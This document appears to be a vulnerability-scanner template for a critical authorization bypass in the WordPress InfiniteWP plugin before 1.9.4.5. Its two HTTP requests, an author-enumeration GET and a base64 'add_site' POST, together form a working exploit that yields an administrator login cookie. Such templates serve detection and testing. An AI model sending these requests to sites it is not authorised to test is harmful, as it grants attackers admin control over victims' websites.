 # WordPress InfiniteWP \<1.9.4.5 - Authorization Bypass
## Description
- WordPress InfiniteWP plugin before 1.9.4.5 for WordPress contains an authorization bypass vulnerability via a missing authorization check in iwp_mmb_set_request in init.php. An attacker who knows the username of an administrator can log in, thereby making it possible to obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - critical
- tags - wpscan,cve,cve2020,wordpress,wp-plugin,wp,infinitewp,auth-bypass
## Requests
### Step - 1
```
GET /?author=1 HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9

```
### Step - 2
```
POST / HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded

_IWP_JSON_PREFIX_{{base64("{\"iwp_action\":\"add_site\",\"params\":{\"username\":\"{{username}}\"}}")}}

```
### Matchers

**Type - word**
- part - header
- words
    1. wordpress_logged_in

**Type - word**
- words
    1. \<IWPHEADER>
- part - body

**Type - status**
- status
    1. 200
### Extractors

